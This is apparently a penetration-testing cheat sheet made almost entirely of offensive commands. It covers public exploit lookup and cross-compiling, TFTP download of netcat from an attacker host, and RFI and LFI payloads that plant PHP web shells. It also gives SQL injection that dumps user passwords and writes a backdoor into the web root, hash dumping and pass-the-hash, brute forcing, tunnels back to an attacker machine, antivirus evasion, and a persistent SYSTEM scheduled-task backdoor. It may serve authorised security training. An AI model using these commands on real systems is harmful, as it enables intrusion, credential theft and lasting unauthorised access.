 # Exploitation
_Finding Public Exploits:_  
www.securityfocus.com/vulnerabilities    
www.exploit-db.com

`searchsploit <keyword>` #Search exploit-db by keyword  
`cp /usr/share/exploitdb/platforms/windows/remote/{643.c,646.c}` . #copy found exploit to root directory

### **Compiling** .  
`i586-mingw32msvc-gcc exploit-fixed.c -lws2_32 -o exploit.exe` #compile Windows code on Linux .      
`wine exploit.exe` #Run Windows executable on Linux

_Convert Python Exploit to Win Exe_  
#On our Windows staging host 
#Install pywin32-218.win320py2.7  
#Extract pyinstaller-2.0 
#Move python exploit into pyinstaller-2.0 directory 
#Invoke pyinstaller to convert to Exe  
`python pyinstaller.py —onefile ms11-080.py`

### **File Transfers**  
_TFTP_  
#Attacker  
`mkdir /tftp  
atftpd --daemon --port 69 /tftp  
cp /usr/share/windows-binaries/nc.exe /tftp/  `

#Victim  
`tftp -i AttackerIP GET nc.exe  `

_PS File Transfer_  
#code sequence in powershell-download file  
`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1` #Bypass Execution Policy

### **Web Application Attacks**  
LFI/RFI #usually in poor php code .  
_RFI_  
`VulnParam=http://AttackerIP/evil.txt%00` #%00 null byte instructs to ignore everything after value .  
#Where evil.txt is `<?php echo shell_exec(“cat /etc/passwd”);?>`  
`$ echo ‘<?php echo shell_exec(“ifconfig”);?>’ > /var/www/evil.txt`

`$ tail -f /var/log/apache2/access.log` #track traffic from our apache web server hosting evil.txt

_LFI_   
#Contaminate the web server log with a PHP backdoor .  
`$ nc -nv TargetIP 80 ` 
`<?php echo shell_exec($_GET[‘cmd’]);?>` 

#append URL to execute command from access log file .  
`&cmd=ipconfig&VulnParam=../../../../../../xampp/apache/logs/access.log%00`

_SQL Injection_   
“`Any’ or 1=1 limit 1;#`" #any username, always true statement, limit one account, end statement while ignoring rest of needed arguments   

Error-based Enumeration Example:  
`test.php?id=1 union order by <recursive #s>` #figure out how many columns (lets assume 6 columns)  
`test.php?id=1 union select 1,2,3,4,5,6` #see where each column is on the page   
`test.php?id=1 union select 1,2,3,4,@@version,6` #use 5th column position to print server version   
`test.php?id=1 union select 1,2,3,4,user(),6` #displays current DB user into 5th column field   
`test.php?id=1 union select 1,2,3,4,table_name,6 FROM information_schema.tables` #all tables   
`union select 1,2,3,4,column_name,6 FROM information_schema.columns where table_name=‘users’` #Extract all column names from the specific table of interest   
`union select 1,2,name,4,password,6 FROM users` #dump creds from users table   

`union all select 1,2,3,4,”<?php echo shell_exec($_GET[‘cmd’]);?>”,6 into OUTFILE ‘c:/xampp/htdocs/backdoor.php’` #add backdoor file to the Windows web root   
`TargetIP/backdoor.php?cmd=ipconfig` #access the uploaded backdoor    

SQLMap   
`sqlmap -u http://TargetIP —crawl=1` #sqlmap crawl web app and search for vulns   

### **Password Attacks**
`FGDUMP.exe` #with admin privs on a local machine, download and run fgdump.exe to display hashes.  
`WCE.exe / WCE64.exe -w` #run locally on a system to display cleartext admin password   

_Pass-the-Hash_   
`pth-` #displays all the tools in suite that can use a hash for authentication   
`export SMBHASH=<HashValue>` #sets the SMBHASH variable with found hash value   
`pth-winexe -U administrator% //TargetIP cmd` #pop cmd on target server with empty admin pw (using hash variable set)   

_Password Audit Tools_   
`Medusa -h TargetIP -u admin -P password-file.txt -M http -m DIR:/admin -T 20` #Medusa   
`Ncrack -v -f —user administrator -P password-file.txt rdp://TargetIP,CL=1` #Ncrack for RDP brute force   
`Hydra -l admin -P password-file.txt -v TargetIP ftp` #Hydra   

### **Tunneling/Redirection**   
#Portforwarding using rinetd
`Nano /etc/rinetd.conf`   
#Configure bindaddress (our proxy address), bind port, connectaddress and connect port   
Ex. `KaliIP 80 TargetIP 3389`   
#Targeting the proxy IP on port 80 from internal network host with only 80/443 outbound allowed will instead connect to target IP RDP.  
`/etc/init.d/rinetd restart`

_Reverse SSH Tunnel from Internal Victim to Attacker_    
#upload plink.exe to victim machine (ssh client for windows)   
`C:\>plink -l root -pw password <AttackerIP> -R 3390:127.0.0.1:3389` #tunnels local port 3389 to port 3390 on attacker machine   
#on kali, `rdesktop 127.0.0.1:3390`, will connect to 3389 on internal server   

_SSH Dynamic Port Forwarding_   
#set local listening port and tunnel traffic to any remote destination through socks proxy   
`ssh -D 8080 root@admin.megacorpone.com` #create socks4 proxy on local attack box to route traffic through dmz server   
#with proxychains forward traffic to the non-routable dmz network via the socks4 proxy   
#configure proxychains, nano /etc/proxychains.conf   
`proxychains map -p 3389 -sT -Pn InternalDMZNetwork —open`

#### Exploitation

_AV Avoidance_  
Encrypt Shell for AV Avoidance with Hyperion  
#Copy Hyperion from Windows binaries directory   
`cp /usr/share/windows-binaries/Hyperion-1.0.zip .`

#Cross compile the Hyperion source code   
`i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe`

#Invoke Hyperion and use it to protect shell   
`wine Hyperion.exe ../shell.exe ~/Desktop/crypted.exe`

_Persistent Backdoor_   
#Schedule persistent backdoor reverse payload every 10min to attacking machine.  
`C:\Windows\system32>schtasks /create /ru SYSTEM /sc MINUTE /M0 10 /tn megapwn /tr "\"C:\\Users\\mike\\Downloads\\shell.exe\""`

